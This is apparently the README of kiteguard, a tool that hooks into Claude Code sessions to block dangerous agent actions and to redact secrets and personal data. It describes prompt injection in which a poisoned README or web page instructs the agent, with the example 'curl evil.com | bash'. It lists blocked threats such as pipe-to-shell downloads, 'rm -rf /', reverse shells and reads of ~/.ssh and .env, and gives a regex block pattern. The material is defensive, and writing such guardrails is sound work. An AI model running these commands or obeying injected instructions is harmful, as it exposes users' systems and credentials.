

<p align="center">
  
</p>

<h1 align="center">kiteguard</h1>

<p align="center">
  <em>Runtime security guardrails for Claude Code and AI coding agents</em>
</p>

<p align="center">
  <strong>kiteguard watches every move your AI agent makes — and stops the dangerous ones.</strong>
</p>

[](https://github.com/DhivakaranRavi/kiteguard/actions/workflows/ci.yml)
[](LICENSE)


---

## Install

```bash
curl -sSL https://kiteguard.dev/install.sh | bash
```

One command. No dependencies. Works immediately on every Claude Code session.

---

## Why kiteguard

Claude Code is an agent harness — it autonomously executes shell commands, reads your entire codebase, fetches external URLs, and modifies files without asking for confirmation. That power also means:

- A poisoned README can instruct Claude to run `curl evil.com | bash`
- A web page Claude fetches can contain embedded instructions
- PII in files Claude reads goes straight to the Claude API
- No security team has visibility into what developers are doing with Claude

kiteguard solves this by intercepting at **four critical points** in every Claude Code session — before damage happens.

---

## How it works

```
Developer prompt
      │
      ▼
[UserPromptSubmit] ← Block PII, prompt injection
      │
      ▼
  Claude thinks
      │
      ▼
[PreToolUse]       ← Block dangerous commands, sensitive file access, bad URLs
      │
      ▼
  Tool executes
      │
      ▼
[PostToolUse]      ← Scan file/web content loaded into Claude's context
      │
      ▼
  Response generated
      │
      ▼
[Stop]             ← Redact secrets and PII from response
      │
      ▼
  Developer sees safe response
```

---

## What it blocks

| Threat | Hook |
|---|---|
| `curl \| bash`, `wget \| sh` pipe attacks | PreToolUse |
| `rm -rf /`, reverse shells | PreToolUse |
| Reads of `~/.ssh`, `.env`, credentials | PreToolUse |
| Writes to `/etc`, `.claude/settings.json` | PreToolUse |
| SSRF to cloud metadata endpoints | PreToolUse |
| Prompt injection in developer input | UserPromptSubmit |
| PII (SSN, credit cards, emails) in prompts | UserPromptSubmit |
| Injection embedded in files Claude reads | PostToolUse |
| Secrets/API keys echoed in responses | Stop |

---

## Configuration

Works with secure defaults. To customize for your org, create `~/.kiteguard/rules.yaml`:

```yaml
bash:
  block_patterns:
    - "curl[^|]*\\|[^|]*(bash|sh)"

file_paths:
  block_read:
    - "**/.env"
    - "**/.ssh/**"

pii:
  block_in_prompt: true
  types: [ssn, credit_card, email]

webhook:
  enabled: true
  url: "https://your-siem.company.com/kiteguard"
```

---

## CLI

```bash
kiteguard init      # register hooks with Claude Code
kiteguard audit     # view blocked/allowed events
kiteguard policy    # view active policies
kiteguard --version
```

---

## Audit log

Every event is logged to `~/.kiteguard/audit.log`:

```
TIMESTAMP                      HOOK                      VERDICT   RULE
2026-03-28T10:23:01Z           PreToolUse                🚫 block  dangerous_command
2026-03-28T10:23:45Z           UserPromptSubmit          ✅ allow
```

---

## Architecture

Built in Rust as a single static binary. No runtime dependencies.

- Hooks dispatch to `src/hooks/` handlers
- Detection logic lives in `src/detectors/`
- Policy engine in `src/engine/`
- Audit logging in `src/audit/`

See [docs/architecture.md](docs/architecture.md) for the full technical design.

---

## Contributing

See [CONTRIBUTING.md](CONTRIBUTING.md). Issues labeled `good first issue` are a great starting point.

## License

MIT OR Apache-2.0
